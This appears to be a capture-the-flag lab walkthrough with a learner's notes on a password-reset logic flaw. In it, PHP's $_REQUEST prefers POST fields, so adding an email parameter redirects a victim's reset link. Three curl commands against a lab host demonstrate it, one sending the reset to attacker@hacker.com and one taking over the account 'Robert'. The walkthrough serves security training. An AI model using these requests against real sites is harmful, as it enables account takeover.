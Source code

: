 This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.  

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.  

Let's illustrate this by using the curl tool to manually make the request to the webserver.  

**Curl Request 1:**

```bash
user@tryhackme$ curl 'http://10.10.27.115/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
        

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.  

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.  

- I didn't see the PHP in the terminal or using the debugger. I guess it was discovered just by testing using the next curl command. 

**Curl Request 2:**

```bash
user@tryhackme$ curl 'http://10.10.27.115/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
        

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png)

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}`**@customer.acmeitsupport.thm**  

Now rerunning **Curl Request 2** but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

**Curl Request 2 (but using your @acmeitsupport.thm account):**

```bash
user@tryhackme:~$ curl 'http://10.10.27.115/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```
        

## Answer the questions below

